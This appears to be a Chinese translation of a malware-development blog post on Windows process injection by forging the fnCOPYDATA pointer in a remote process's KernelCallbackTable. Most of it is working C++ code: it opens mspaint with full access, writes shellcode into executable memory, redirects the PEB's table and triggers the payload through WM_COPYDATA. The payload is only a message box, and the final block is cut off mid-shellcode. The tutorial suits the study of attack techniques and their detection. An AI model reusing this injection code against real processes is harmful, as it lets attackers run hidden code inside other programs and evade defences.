








\newpage
\subsection{通过 KernelCallbackTable 进行进程注入：简单的 C++ 恶意软件示例}

﷽

{width="80%"}

这篇文章是我自我研究一种进程注入技术的结果：伪造 `KernelCallbackTable` 中的 `fnCOPYDATA` 值。

我们来看这项技术的更多细节。

### KernelCallbackTable

`KernelCallbackTable` 可以在 PEB 结构中找到，偏移量为 0x058：

```cmd
lkd> dt_PEB
```

{width="80%"}

```cmd
lkd> dt_PEB @$peb kernelcallbacktable
```

{width="80%"}

`KernelCallbackTable` 被初始化为一个函数数组：

```cpp
lkd> dqs 0x00007ffa`29123070 L60
00007ffa`29123070  00007ffa`290c2bd0 user32!_fnCOPYDATA
00007ffa`29123078  00007ffa`2911ae70 user32!_fnCOPYGLOBALDATA
00007ffa`29123080  00007ffa`290c0420 user32!_fnDWORD
00007ffa`29123088  00007ffa`290c5680 user32!_fnNCDESTROY
00007ffa`29123090  00007ffa`290c96a0 user32!_fnDWORDOPTINLPMSG
00007ffa`29123098  00007ffa`2911b4a0 user32!_fnINOUTDRAG
//....
```

例如，`fnCOPYDATA` 这样的函数是在响应 `WM_COPYDATA` 窗口消息时被调用的。

我们替换这个函数来演示注入。

### 实战示例

这项技术的流程是：首先，从 SDK 中包含 `ntddk.h` 头文件：

```cpp
#include <./ntddk.h>
```

然后，重新定义：

```cpp
typedef struct _KERNELCALLBACKTABLE_T {
  ULONG_PTR __fnCOPYDATA;
  ULONG_PTR __fnCOPYGLOBALDATA;
  ULONG_PTR __fnDWORD;
  ULONG_PTR __fnNCDESTROY;
  ULONG_PTR __fnDWORDOPTINLPMSG;
  ULONG_PTR __fnINOUTDRAG;
  ULONG_PTR __fnGETTEXTLENGTHS;
  ULONG_PTR __fnINCNTOUTSTRING;
  ULONG_PTR __fnPOUTLPINT;
  ULONG_PTR __fnINLPCOMPAREITEMSTRUCT;
  ULONG_PTR __fnINLPCREATESTRUCT;
  ULONG_PTR __fnINLPDELETEITEMSTRUCT;
  ULONG_PTR __fnINLPDRAWITEMSTRUCT;
  ULONG_PTR __fnPOPTINLPUINT;
  ULONG_PTR __fnPOPTINLPUINT2;
  ULONG_PTR __fnINLPMDICREATESTRUCT;
  ULONG_PTR __fnINOUTLPMEASUREITEMSTRUCT;
  ULONG_PTR __fnINLPWINDOWPOS;
  ULONG_PTR __fnINOUTLPPOINT5;
  ULONG_PTR __fnINOUTLPSCROLLINFO;
  ULONG_PTR __fnINOUTLPRECT;
  ULONG_PTR __fnINOUTNCCALCSIZE;
  ULONG_PTR __fnINOUTLPPOINT5_;
  ULONG_PTR __fnINPAINTCLIPBRD;
  ULONG_PTR __fnINSIZECLIPBRD;
  ULONG_PTR __fnINDESTROYCLIPBRD;
  ULONG_PTR __fnINSTRING;
  ULONG_PTR __fnINSTRINGNULL;
  ULONG_PTR __fnINDEVICECHANGE;
  ULONG_PTR __fnPOWERBROADCAST;
  ULONG_PTR __fnINLPUAHDRAWMENU;
  ULONG_PTR __fnOPTOUTLPDWORDOPTOUTLPDWORD;
  ULONG_PTR __fnOPTOUTLPDWORDOPTOUTLPDWORD_;
  ULONG_PTR __fnOUTDWORDINDWORD;
  ULONG_PTR __fnOUTLPRECT;
  ULONG_PTR __fnOUTSTRING;
  ULONG_PTR __fnPOPTINLPUINT3;
  ULONG_PTR __fnPOUTLPINT2;
  ULONG_PTR __fnSENTDDEMSG;
  ULONG_PTR __fnINOUTSTYLECHANGE;
  ULONG_PTR __fnHkINDWORD;
  ULONG_PTR __fnHkINLPCBTACTIVATESTRUCT;
  ULONG_PTR __fnHkINLPCBTCREATESTRUCT;
  ULONG_PTR __fnHkINLPDEBUGHOOKSTRUCT;
  ULONG_PTR __fnHkINLPMOUSEHOOKSTRUCTEX;
  ULONG_PTR __fnHkINLPKBDLLHOOKSTRUCT;
  ULONG_PTR __fnHkINLPMSLLHOOKSTRUCT;
  ULONG_PTR __fnHkINLPMSG;
  ULONG_PTR __fnHkINLPRECT;
  ULONG_PTR __fnHkOPTINLPEVENTMSG;
  ULONG_PTR __xxxClientCallDelegateThread;
  ULONG_PTR __ClientCallDummyCallback;
  ULONG_PTR __fnKEYBOARDCORRECTIONCALLOUT;
  ULONG_PTR __fnOUTLPCOMBOBOXINFO;
  ULONG_PTR __fnINLPCOMPAREITEMSTRUCT2;
  ULONG_PTR __xxxClientCallDevCallbackCapture;
  ULONG_PTR __xxxClientCallDitThread;
  ULONG_PTR __xxxClientEnableMMCSS;
  ULONG_PTR __xxxClientUpdateDpi;
  ULONG_PTR __xxxClientExpandStringW;
  ULONG_PTR __ClientCopyDDEIn1;
  ULONG_PTR __ClientCopyDDEIn2;
  ULONG_PTR __ClientCopyDDEOut1;
  ULONG_PTR __ClientCopyDDEOut2;
  ULONG_PTR __ClientCopyImage;
  ULONG_PTR __ClientEventCallback;
  ULONG_PTR __ClientFindMnemChar;
  ULONG_PTR __ClientFreeDDEHandle;
  ULONG_PTR __ClientFreeLibrary;
  ULONG_PTR __ClientGetCharsetInfo;
  ULONG_PTR __ClientGetDDEFlags;
  ULONG_PTR __ClientGetDDEHookData;
  ULONG_PTR __ClientGetListboxString;
  ULONG_PTR __ClientGetMessageMPH;
  ULONG_PTR __ClientLoadImage;
  ULONG_PTR __ClientLoadLibrary;
  ULONG_PTR __ClientLoadMenu;
  ULONG_PTR __ClientLoadLocalT1Fonts;
  ULONG_PTR __ClientPSMTextOut;
  ULONG_PTR __ClientLpkDrawTextEx;
  ULONG_PTR __ClientExtTextOutW;
  ULONG_PTR __ClientGetTextExtentPointW;
  ULONG_PTR __ClientCharToWchar;
  ULONG_PTR __ClientAddFontResourceW;
  ULONG_PTR __ClientThreadSetup;
  ULONG_PTR __ClientDeliverUserApc;
  ULONG_PTR __ClientNoMemoryPopup;
  ULONG_PTR __ClientMonitorEnumProc;
  ULONG_PTR __ClientCallWinEventProc;
  ULONG_PTR __ClientWaitMessageExMPH;
  ULONG_PTR __ClientWOWGetProcModule;
  ULONG_PTR __ClientWOWTask16SchedNotify;
  ULONG_PTR __ClientImmLoadLayout;
  ULONG_PTR __ClientImmProcessKey;
  ULONG_PTR __fnIMECONTROL;
  ULONG_PTR __fnINWPARAMDBCSCHAR;
  ULONG_PTR __fnGETTEXTLENGTHS2;
  ULONG_PTR __fnINLPKDRAWSWITCHWND;
  ULONG_PTR __ClientLoadStringW;
  ULONG_PTR __ClientLoadOLE;
  ULONG_PTR __ClientRegisterDragDrop;
  ULONG_PTR __ClientRevokeDragDrop;
  ULONG_PTR __fnINOUTMENUGETOBJECT;
  ULONG_PTR __ClientPrinterThunk;
  ULONG_PTR __fnOUTLPCOMBOBOXINFO2;
  ULONG_PTR __fnOUTLPSCROLLBARINFO;
  ULONG_PTR __fnINLPUAHDRAWMENU2;
  ULONG_PTR __fnINLPUAHDRAWMENUITEM;
  ULONG_PTR __fnINLPUAHDRAWMENU3;
  ULONG_PTR __fnINOUTLPUAHMEASUREMENUITEM;
  ULONG_PTR __fnINLPUAHDRAWMENU4;
  ULONG_PTR __fnOUTLPTITLEBARINFOEX;
  ULONG_PTR __fnTOUCH;
  ULONG_PTR __fnGESTURE;
  ULONG_PTR __fnPOPTINLPUINT4;
  ULONG_PTR __fnPOPTINLPUINT5;
  ULONG_PTR __xxxClientCallDefaultInputHandler;
  ULONG_PTR __fnEMPTY;
  ULONG_PTR __ClientRimDevCallback;
  ULONG_PTR __xxxClientCallMinTouchHitTestingCallback;
  ULONG_PTR __ClientCallLocalMouseHooks;
  ULONG_PTR __xxxClientBroadcastThemeChange;
  ULONG_PTR __xxxClientCallDevCallbackSimple;
  ULONG_PTR __xxxClientAllocWindowClassExtraBytes;
  ULONG_PTR __xxxClientFreeWindowClassExtraBytes;
  ULONG_PTR __fnGETWINDOWDATA;
  ULONG_PTR __fnINOUTSTYLECHANGE2;
  ULONG_PTR __fnHkINLPMOUSEHOOKSTRUCTEX2;
} KERNELCALLBACKTABLE;
```

然后，找到 `mspaint.exe` 的一个窗口，获取进程 ID 并打开它：

```cpp
// find a window for mspaint.exe
HWND hw = FindWindow(NULL, (LPCSTR) "Untitled - Paint");
if (hw == NULL) {
  printf("failed to find window :(\n");
  return -2;

GetWindowThreadProcessId(hw, &pid);
ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
```

之后，读取 PEB 和已有的表地址：

```cpp
HMODULE ntdll = GetModuleHandleA("ntdll");
pNtQueryInformationProcess myNtQueryInformationProcess = 
(pNtQueryInformationProcess)(GetProcAddress(
ntdll, "NtQueryInformationProcess"));

myNtQueryInformationProcess(ph, 
ProcessBasicInformation, 
&pbi, sizeof(pbi), NULL);

ReadProcessMemory(ph, pbi.PebBaseAddress, 
&peb, sizeof(peb), NULL);
ReadProcessMemory(ph, peb.KernelCallbackTable, 
&kct, sizeof(kct), NULL);
```

然后，通过 `VirtualAllocEx` 和 `WriteProcessMemory` 把我们的载荷写入远程进程：

```cpp
LPVOID rb = VirtualAllocEx(ph, NULL, sizeof(my_payload),
MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
WriteProcessMemory(ph, rb, my_payload, 
sizeof(my_payload), NULL);
```

我们用 `VirtualAllocEx`，它允许你为远程进程分配内存缓冲区；然后 `WriteProcessMemory` 允许你在进程之间复制数据，于是把我们的载荷复制到 `mspaint.exe` 进程。

把新的表写入远程进程：

```cpp
LPVOID tb = VirtualAllocEx(ph, NULL, sizeof(kct), 
MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
kct.__fnCOPYDATA = (ULONG_PTR)rb;
WriteProcessMemory(ph, tb, &kct, sizeof(kct), NULL);
```

更新 PEB：

```cpp
WriteProcessMemory(ph, 
(PBYTE)pbi.PebBaseAddress + offsetof(PEB, KernelCallbackTable), 
&tb, sizeof(ULONG_PTR), NULL);
```

触发载荷执行：

```cpp
cds.dwData = 1;
cds.cbData = lstrlen((LPCSTR)msg) * 2;
cds.lpData = msg;

SendMessage(hw, WM_COPYDATA, (WPARAM)hw, (LPARAM)&cds);
```

最后，恢复原来的 `KernelCallbackTable`：

```cpp
WriteProcessMemory(ph, 
(PBYTE)pbi.PebBaseAddress + offsetof(PEB, KernelCallbackTable), 
&peb.KernelCallbackTable, 
sizeof(ULONG_PTR), NULL);
SendMessage(hw, WM_COPYDATA, (WPARAM)hw, (LPARAM)&cds);
```

这里，为了恢复原始代码并检查它是否正常恢复，我们再次调用了 `SendMessage()`，以验证代码不再运行。

那么，我们这个简单恶意软件的完整 C++ 代码是：

```cpp
/*
 * hack.cpp - process injection via 
 * KernelCallbackTable. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/tutorial/
 2022/01/24/malware-injection-15.html
*/
#include <./ntddk.h>
#include <cstdio>
#include <cstddef>

#pragma comment(lib, "ntdll");

typedef struct _KERNELCALLBACKTABLE_T {
  ULONG_PTR __fnCOPYDATA;
  ULONG_PTR __fnCOPYGLOBALDATA;
  ULONG_PTR __fnDWORD;
  ULONG_PTR __fnNCDESTROY;
  ULONG_PTR __fnDWORDOPTINLPMSG;
  ULONG_PTR __fnINOUTDRAG;
  ULONG_PTR __fnGETTEXTLENGTHS;
  ULONG_PTR __fnINCNTOUTSTRING;
  ULONG_PTR __fnPOUTLPINT;
  ULONG_PTR __fnINLPCOMPAREITEMSTRUCT;
  ULONG_PTR __fnINLPCREATESTRUCT;
  ULONG_PTR __fnINLPDELETEITEMSTRUCT;
  ULONG_PTR __fnINLPDRAWITEMSTRUCT;
  ULONG_PTR __fnPOPTINLPUINT;
  ULONG_PTR __fnPOPTINLPUINT2;
  ULONG_PTR __fnINLPMDICREATESTRUCT;
  ULONG_PTR __fnINOUTLPMEASUREITEMSTRUCT;
  ULONG_PTR __fnINLPWINDOWPOS;
  ULONG_PTR __fnINOUTLPPOINT5;
  ULONG_PTR __fnINOUTLPSCROLLINFO;
  ULONG_PTR __fnINOUTLPRECT;
  ULONG_PTR __fnINOUTNCCALCSIZE;
  ULONG_PTR __fnINOUTLPPOINT5_;
  ULONG_PTR __fnINPAINTCLIPBRD;
  ULONG_PTR __fnINSIZECLIPBRD;
  ULONG_PTR __fnINDESTROYCLIPBRD;
  ULONG_PTR __fnINSTRING;
  ULONG_PTR __fnINSTRINGNULL;
  ULONG_PTR __fnINDEVICECHANGE;
  ULONG_PTR __fnPOWERBROADCAST;
  ULONG_PTR __fnINLPUAHDRAWMENU;
  ULONG_PTR __fnOPTOUTLPDWORDOPTOUTLPDWORD;
  ULONG_PTR __fnOPTOUTLPDWORDOPTOUTLPDWORD_;
  ULONG_PTR __fnOUTDWORDINDWORD;
  ULONG_PTR __fnOUTLPRECT;
  ULONG_PTR __fnOUTSTRING;
  ULONG_PTR __fnPOPTINLPUINT3;
  ULONG_PTR __fnPOUTLPINT2;
  ULONG_PTR __fnSENTDDEMSG;
  ULONG_PTR __fnINOUTSTYLECHANGE;
  ULONG_PTR __fnHkINDWORD;
  ULONG_PTR __fnHkINLPCBTACTIVATESTRUCT;
  ULONG_PTR __fnHkINLPCBTCREATESTRUCT;
  ULONG_PTR __fnHkINLPDEBUGHOOKSTRUCT;
  ULONG_PTR __fnHkINLPMOUSEHOOKSTRUCTEX;
  ULONG_PTR __fnHkINLPKBDLLHOOKSTRUCT;
  ULONG_PTR __fnHkINLPMSLLHOOKSTRUCT;
  ULONG_PTR __fnHkINLPMSG;
  ULONG_PTR __fnHkINLPRECT;
  ULONG_PTR __fnHkOPTINLPEVENTMSG;
  ULONG_PTR __xxxClientCallDelegateThread;
  ULONG_PTR __ClientCallDummyCallback;
  ULONG_PTR __fnKEYBOARDCORRECTIONCALLOUT;
  ULONG_PTR __fnOUTLPCOMBOBOXINFO;
  ULONG_PTR __fnINLPCOMPAREITEMSTRUCT2;
  ULONG_PTR __xxxClientCallDevCallbackCapture;
  ULONG_PTR __xxxClientCallDitThread;
  ULONG_PTR __xxxClientEnableMMCSS;
  ULONG_PTR __xxxClientUpdateDpi;
  ULONG_PTR __xxxClientExpandStringW;
  ULONG_PTR __ClientCopyDDEIn1;
  ULONG_PTR __ClientCopyDDEIn2;
  ULONG_PTR __ClientCopyDDEOut1;
  ULONG_PTR __ClientCopyDDEOut2;
  ULONG_PTR __ClientCopyImage;
  ULONG_PTR __ClientEventCallback;
  ULONG_PTR __ClientFindMnemChar;
  ULONG_PTR __ClientFreeDDEHandle;
  ULONG_PTR __ClientFreeLibrary;
  ULONG_PTR __ClientGetCharsetInfo;
  ULONG_PTR __ClientGetDDEFlags;
  ULONG_PTR __ClientGetDDEHookData;
  ULONG_PTR __ClientGetListboxString;
  ULONG_PTR __ClientGetMessageMPH;
  ULONG_PTR __ClientLoadImage;
  ULONG_PTR __ClientLoadLibrary;
  ULONG_PTR __ClientLoadMenu;
  ULONG_PTR __ClientLoadLocalT1Fonts;
  ULONG_PTR __ClientPSMTextOut;
  ULONG_PTR __ClientLpkDrawTextEx;
  ULONG_PTR __ClientExtTextOutW;
  ULONG_PTR __ClientGetTextExtentPointW;
  ULONG_PTR __ClientCharToWchar;
  ULONG_PTR __ClientAddFontResourceW;
  ULONG_PTR __ClientThreadSetup;
  ULONG_PTR __ClientDeliverUserApc;
  ULONG_PTR __ClientNoMemoryPopup;
  ULONG_PTR __ClientMonitorEnumProc;
  ULONG_PTR __ClientCallWinEventProc;
  ULONG_PTR __ClientWaitMessageExMPH;
  ULONG_PTR __ClientWOWGetProcModule;
  ULONG_PTR __ClientWOWTask16SchedNotify;
  ULONG_PTR __ClientImmLoadLayout;
  ULONG_PTR __ClientImmProcessKey;
  ULONG_PTR __fnIMECONTROL;
  ULONG_PTR __fnINWPARAMDBCSCHAR;
  ULONG_PTR __fnGETTEXTLENGTHS2;
  ULONG_PTR __fnINLPKDRAWSWITCHWND;
  ULONG_PTR __ClientLoadStringW;
  ULONG_PTR __ClientLoadOLE;
  ULONG_PTR __ClientRegisterDragDrop;
  ULONG_PTR __ClientRevokeDragDrop;
  ULONG_PTR __fnINOUTMENUGETOBJECT;
  ULONG_PTR __ClientPrinterThunk;
  ULONG_PTR __fnOUTLPCOMBOBOXINFO2;
  ULONG_PTR __fnOUTLPSCROLLBARINFO;
  ULONG_PTR __fnINLPUAHDRAWMENU2;
  ULONG_PTR __fnINLPUAHDRAWMENUITEM;
  ULONG_PTR __fnINLPUAHDRAWMENU3;
  ULONG_PTR __fnINOUTLPUAHMEASUREMENUITEM;
  ULONG_PTR __fnINLPUAHDRAWMENU4;
  ULONG_PTR __fnOUTLPTITLEBARINFOEX;
  ULONG_PTR __fnTOUCH;
  ULONG_PTR __fnGESTURE;
  ULONG_PTR __fnPOPTINLPUINT4;
  ULONG_PTR __fnPOPTINLPUINT5;
  ULONG_PTR __xxxClientCallDefaultInputHandler;
  ULONG_PTR __fnEMPTY;
  ULONG_PTR __ClientRimDevCallback;
  ULONG_PTR __xxxClientCallMinTouchHitTestingCallback;
  ULONG_PTR __ClientCallLocalMouseHooks;
  ULONG_PTR __xxxClientBroadcastThemeChange;
  ULONG_PTR __xxxClientCallDevCallbackSimple;
  ULONG_PTR __xxxClientAllocWindowClassExtraBytes;
  ULONG_PTR __xxxClientFreeWindowClassExtraBytes;
  ULONG_PTR __fnGETWINDOWDATA;
  ULONG_PTR __fnINOUTSTYLECHANGE2;
  ULONG_PTR __fnHkINLPMOUSEHOOKSTRUCTEX2;
} KERNELCALLBACKTABLE;

// NtQueryInformationProcess
typedef NTSTATUS(NTAPI* pNtQueryInformationProcess)(
  IN HANDLE ProcessHandle,
  IN PROCESSINFOCLASS ProcessInformationClass,
  OUT PVOID ProcessInformation,
  IN ULONG ProcessInformationLength,
  OUT PULONG ReturnLength OPTIONAL
);

unsigned char my_payload[] =

  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

int main() {

  HANDLE ph;
  DWORD pid;
  PROCESS_BASIC_INFORMATION pbi;
  KERNELCALLBACKTABLE kct;
  COPYDATASTRUCT cds;
  PEB peb;
  WCHAR msg[] = L"kernelcallbacktable injection impl";

  // find a window for mspaint.exe
  HWND hw = FindWindow(NULL, (LPCSTR) "Untitled - Paint");
  if (hw == NULL) {
  printf("failed to find window :(\n");
  return -2;
  }
  GetWindowThreadProcessId(hw, &pid);
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);

  HMODULE ntdll = GetModuleHandleA("ntdll");
  pNtQueryInformationProcess myNtQueryInformationProcess = 
  (pNtQueryInformationProcess)(GetProcAddress(
  ntdll, "NtQueryInformationProcess"));

  myNtQueryInformationProcess(ph, 
  ProcessBasicInformation, &pbi, sizeof(pbi), NULL);

  ReadProcessMemory(ph, pbi.PebBaseAddress, 
  &peb, sizeof(peb), NULL);
  ReadProcessMemory(ph, peb.KernelCallbackTable, 
  &kct, sizeof(kct), NULL);

  LPVOID rb = VirtualAllocEx(ph, NULL, sizeof(my_payload),
  MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  WriteProcessMemory(ph, rb, my_payload, 
  sizeof(my_payload), NULL);

  LPVOID tb = VirtualAllocEx(ph, NULL, sizeof(kct),
  MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
  kct.__fnCOPYDATA = (ULONG_PTR)rb;
  WriteProcessMemory(ph, tb, &kct, sizeof(kct), NULL);

  WriteProcessMemory(ph, 
  (PBYTE)pbi.PebBaseAddress + offsetof(PEB, KernelCallbackTable),
  &tb, sizeof(ULONG_PTR), NULL);

  cds.dwData = 1;
  cds.cbData = lstrlen((LPCSTR)msg) * 2;
  cds.lpData = msg;

  SendMessage(hw, WM_COPYDATA, (WPARAM)hw, (LPARAM)&cds);
  WriteProcessMemory(ph, 
  (PBYTE)pbi.PebBaseAddress + offsetof(PEB, KernelCallbackTable),
  &peb.KernelCallbackTable, sizeof(ULONG_PTR), NULL);

  VirtualFreeEx(ph, rb, 0, MEM_RELEASE);
  VirtualFreeEx(ph, tb, 0, MEM_RELEASE);
  CloseHandle(ph);

  return 0;

```

和往常一样，为了简单起见，我们用 meow-meow 消息框作为载荷：

```cpp
unsigned char my_payload[] =

  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
